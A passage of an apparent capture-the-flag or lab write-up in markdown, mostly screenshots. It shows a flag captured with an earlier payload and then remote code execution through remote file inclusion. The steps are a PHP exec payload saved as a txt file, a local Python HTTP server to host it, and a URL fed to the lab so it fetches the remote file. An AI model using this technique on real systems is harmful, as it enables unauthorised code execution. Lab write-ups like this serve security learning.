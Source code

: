 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105182754.png)

Now, let's give the previous payload to the file section:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105182811.png)

Let's send the request:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105182825.png)

Nice, we got the flag!

## FOURTH 

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105182924.png)

We need to gain RCE in that section, let's check:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105182954.png)

First, let's create a file with the following php code saved as a txt file:

`<?php echo exec("hostname");?>`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105183103.png)

Now, we need to pass the following to the lab:


```ad-note
- Create a python3 server using: `python3 -m http.server`
- Pass in the following input: `http://ip:port/nameoffile.txt`
- Enjoy!

# POC

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105183251.png)



```



